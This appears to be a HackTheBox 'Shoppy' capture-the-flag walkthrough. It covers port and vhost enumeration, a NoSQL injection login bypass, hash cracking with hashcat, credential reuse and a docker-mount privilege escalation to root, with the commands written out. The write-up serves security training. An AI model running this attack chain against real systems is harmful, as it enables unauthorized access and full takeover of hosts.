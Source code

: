 # HackTheBox Shoppy WriteUp
machine IP: 10.10.11.180

![Ping](images/img(1).png?raw=true "Ping")

<br/>

### -> NMAP SCAN

```
sudo nmap -vvv -cSV -p0-65535 --reason -T4 10.10.11.184 -oN shoppy.nmap
```

Discovered shoppy.htb by browsing, add to /etc/hosts

![Ping](images/img(2).png?raw=true "hosts")

### -> WEB ENUM

go to the browser and have a look at the website’s code and in general, the website look. 

![Ping](images/img(3).png?raw=true "hosts")

We don’t find anything interesting here so we run gobuster.

![Ping](images/img(4).png?raw=true "hosts")

looks like we have a login page here to take advantage of this

![Ping](images/img(5).png?raw=true "hosts")

figured out it’s using nosql and made it to the admin page using this injection, go to search for users and type in that query again

![Ping](images/img(6).png?raw=true "hosts")

write any name in the input field and then click on download exports

![Ping](images/img(7).png?raw=true "hosts")

![Ping](images/img(8).png?raw=true "hosts")

The hash can be cracked using hashcat

```
hashcat -m 0 hash.txt rockyou.txt
```

![Ping](images/img(9).png?raw=true "hosts")

Now that we have the password, 

### -> FOOTHOLD

we need to do subdomain enumeration.

```
gobuster vhost --url http://shoppy.htb -w /usr/share/wordlists/amass/bitquark_subdomains_top100K.txt
```

![Ping](images/img(11).png?raw=true "hosts")

here we have mattermost.shoppy.htb, add it to /etc/hosts

![Ping](images/img(10).png?raw=true "hosts")

then browse the link and log in using the credentials we found

![Ping](images/img(12).png?raw=true "hosts")

after logging in we see different rooms on the left hand side we go to deploy machine section and see that we have the credentials for deploying the machine.

![Ping](images/img(13).png?raw=true "hosts")

Login via ssh as jaeger to fetch the user flag

![Ping](images/img(14).png?raw=true "hosts")

### -> ROOT

Check sudo rights
```
sudo -l
```
Here we see jaeger may deploy the /home/deploy/password-manager. Check the text of the this program and spot the following line, see the word Sample?
```
cat /home/deploy/password-manager
```
![Ping](images/img(16).png?raw=true "hosts")

Enter the master password and switch to deploy, Here we see deploy and password

```
sudo -u deploy /home/deploy/password-manager 
```

![Ping](images/img(17).png?raw=true "hosts")

move to deploy user using these credentials 

```
su deploy
```

![Ping](images/img(18).png?raw=true "hosts")

If you went to the mattermost subdomain there’s a hint there:

![Ping](images/img(19).png?raw=true "hosts")

he’s using docker for deployment, we might find exploits going to [Check Here](https://gtfobins.github.io/#docker)

```
docker run -v /:/mnt --rm -it alpine chroot /mnt sh
```

![Ping](images/img(20).png?raw=true "hosts")

Boom! Got root flag